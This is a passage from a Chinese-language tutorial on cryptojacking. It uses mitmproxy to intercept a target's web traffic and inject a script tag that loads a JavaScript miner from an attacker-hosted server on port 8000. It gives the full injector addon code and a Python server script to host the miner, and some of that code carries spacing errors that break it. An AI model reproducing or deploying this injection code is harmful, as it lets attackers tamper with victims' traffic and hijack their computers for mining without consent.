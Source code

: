 ### 2.2 mitmproxy
mitmproxy这款软件工具可以帮我们分析流经主机的通信数据，并允许我们对流量数据进行编辑修改。而在我们的场景中，我们将用它来向html页面中注入JavaScript代码。为了演示方便，我们将在html页面中注入一行代码，而这行html代码将会调用JS挖矿工具：
```
<script src="http://httpserverIP:8000/script.js"></script>
```

###  2.3 代码注入
当我们拦截下了目标用户的流量之后，我们需要向其中注入脚本代码，这里我们使用的是mitmproxy API来实现：
```
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
def __init__(self, path):
self.path = path
def response(self, flow: http.HTTPFlow)-> None:
if self.path:
html = BeautifulSoup(flow.response.content,"html.parser")
print(self.path)
print(flow.response.headers["content-type"])
ifflow.response.headers["content-type"] == 'text/html':
script = html.new_tag(
"script",
src=self.path,
type='application/javascript')
html.body.insert(0, script)
flow.response.content =str(html).encode("utf8")
print("Scriptinjected.")
def start():
parser = argparse.ArgumentParser()
parser.add_argument("path",type=str)
args = parser.parse_args()
return Injector(args.path)
```

### 2.4 HTTP服务器
注入了html代码之后，它将会调用我们的JavaScript挖矿工具。所以接下来，我们需要在HTTP服务器中托管脚本文件。HTTP服务器需要在攻击者端配置，我们这里使用Python的‘http.server’库：
```
#!/usr/bin/envpython
impor thttp.server
import socketserver
import os
PORT= 8000
web_dir= os.path.join(os.path.dirname(__file__), 'miner_script')
os.chdir(web_dir)
Handler= http.server.SimpleHTTPRequestHandler
httpd= socketserver.TCPServer(("", PORT), Handler)
print("servingat port", PORT)
httpd.serve_forever()
```
